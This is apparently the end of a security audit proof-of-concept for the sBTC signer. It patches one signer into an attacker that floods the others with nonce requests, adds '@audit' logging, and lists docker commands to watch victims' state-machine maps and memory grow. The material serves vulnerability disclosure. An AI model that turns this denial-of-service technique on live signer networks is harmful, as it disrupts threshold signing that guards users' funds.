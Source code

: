     +                .to_message(bitcoin_chain_tip)
    +                .sign_ecdsa(&private_key)
    +        ).await?;
    +    }
    +
    +    Ok(())
    +}
    +
     #[tracing::instrument(skip_all, name = "kademlia")]
     fn handle_kademlia_event(event: kad::Event) {
         match event {
    ```
6.  Patch `signer/src/transaction_signer.rs`, add some log

    ```diff
                 #[allow(clippy::map_entry)]
                 WstsNetMessage::NonceRequest(request) => {
                     tracing::info!("handling NonceRequest");
                     if !chain_tip_report.sender_is_coordinator {
                         tracing::warn!("received coordinator message from non-coordinator signer");
    +                    tracing::info!("@audit; non-coordinator signer");
                         return Ok(());
                     }
     
                     let db = self.context.get_storage();
                     let sig_hash = &request.message;
                     let validation_outcome = Self::validate_bitcoin_sign_request(&db, sig_hash).await;
                     let validation_status = match &validation_outcome {
                         Ok(()) => "success",
                         Err(Error::SigHashConversion(_)) => "improper-sighash",
                         Err(Error::UnknownSigHash(_)) => "unknown-sighash",
                         Err(Error::InvalidSigHash(_)) => "invalid-sighash",
                         Err(_) => "unexpected-failure",
                     };
                     metrics::counter!(
                         Metrics::SignRequestsTotal,
                         "blockchain" => BITCOIN_BLOCKCHAIN,
                         "kind" => "sweep",
                         "status" => validation_status,
                     )
                     .increment(1);
     
    +                tracing::info!("@audit; contains_key: {:?}, wsts_state_machines, len: {:?}",
    +                    self.wsts_state_machines.contains_key(&msg.txid),
    +                    self.wsts_state_machines.len()
    +                );
                     if !self.wsts_state_machines.contains_key(&msg.txid) {
                         let (maybe_aggregate_key, _) = self
                             .get_signer_set_and_aggregate_key(bitcoin_chain_tip)
    ```
7.  Run docker

    ```sh
    make devenv-up
    make devenv-down
    docker compose -f docker/docker-compose.yml --profile default --profile bitcoin-mempool --profile sbtc-signer build
    make devenv-up
    ```
8. This PoC sets _sbtc-signer-3_ as an attacker, which will automatically attack other signers. Observe the log and you will find that `self.wsts_state_machines` of other signers keeps growing
9. You can observe the memory usage of signer through `docker stats sbtc-signer-1` command
